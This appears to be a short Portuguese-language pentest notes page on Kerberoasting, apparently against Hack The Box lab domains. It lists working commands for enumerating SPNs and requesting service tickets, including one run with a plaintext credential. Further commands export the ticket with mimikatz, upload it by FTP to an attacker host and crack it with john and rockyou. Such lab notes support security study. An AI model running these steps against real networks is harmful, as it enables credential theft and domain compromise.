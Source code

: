 Kerberoasting
=============

```
setspn -T scrm.local -Q */*
```

Remotelly

    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.205.44 -request



Temos que focar no que for contas de serviço que não seja de máquinas, conforme print abaixo:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>Usuário de serviço (não é de máquina)</p></figcaption></figure>

```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dc1.scrm.local:1433"
```

Requisitei o ticket

```
klist
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
kerberos::list /export
$client = New-Object System.Net.WebClient;$client.Credentials = New-Object System.Net.NetworkCredential("anonymous", "anonymous");$client.UploadFile("ftp://10.10.14.14/test.kirbi", "C:\temp\1-40a10000-sqlsvc@MSSQLSvc~dc1.scrm.local~1433-SCRM.LOCAL.kirbi")
python -m pyftpdlib --port=21 --write
```

```
python /home/acosta/owncloud/Area_de_trabalho/tools/linux/5-lateral_movement/kerberoast/kirbi2john.py test.kirbi > test.john
john --wordlist=/usr/share/wordlists/rockyou.txt test.john
```



